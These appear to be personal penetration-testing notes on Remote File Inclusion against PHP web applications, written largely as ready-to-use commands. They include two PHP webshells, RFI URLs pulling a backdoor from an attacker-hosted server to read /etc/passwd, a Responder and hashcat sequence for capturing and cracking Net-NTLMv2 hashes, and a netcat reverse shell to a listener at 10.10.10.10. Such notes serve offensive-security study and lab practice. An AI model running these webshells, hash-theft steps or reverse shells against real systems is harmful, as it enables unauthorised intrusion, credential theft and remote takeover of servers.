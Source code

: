 Less common than LFI
Target must be configured in a specific way
	allow_url_include must be enabled (in php apps)

RFI allows us to include files from a remote system over HTTP or SMB

Kali includes PHP webshells natively 
	`/usr/share/webshells/php/

simple-backdoor.php code
```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

another php webshell example
```php
<?php system ($GET["cmd"]) ?>
```
## Demonstration of RFI Attacks

#### Enumerating
HTTP Version:
```bash
# host server
python3 -m http.server 80

# visit
http://<target>.com/index.php?view=http://<kali_ip>/simple-backdoor.php?cmd=cat+/etc/passwd
```
You may need to view page source to see output in a legible manner

See [[LFI Path Traversal]] if you can get to this point

#### Stealing Hashes
We can potentially intercept user hashes if RFI is possible

```bash
# Start SMB Server
sudo responder -I tun0

# Connect to SMB server with web server (also try with BURP)
GET /index.php?view=//<kali_ip>/404

# Crack Net-NTLMv2 hash
hashcat -m 5600 /usr/share/wordlists/rockyou.txt
```

#### Reverse Shells
If we can perform an RFI, we can potentially get a reverse shell

Linux
```bash
# host server
python3 -m http.server 80

# one-liner
http://<target>.com/index.php?view=http://<kali_ip>/simple-backdoor.php?cmd=<reverse_shell_oneliners>
```
you may have to url encode to get it to work


Windows
```bash
# host server in location with nc64.exe AND webshell
python3 -m http.server 80

# one-liner
http://<target>.com/index.php?view=http://<kali_ip>/simple-backdoor.php?cmd=nc64.exe -e powershell.exe 10.10.10.10 9001
```
likewise you may need to url encode (%20 = spaces)
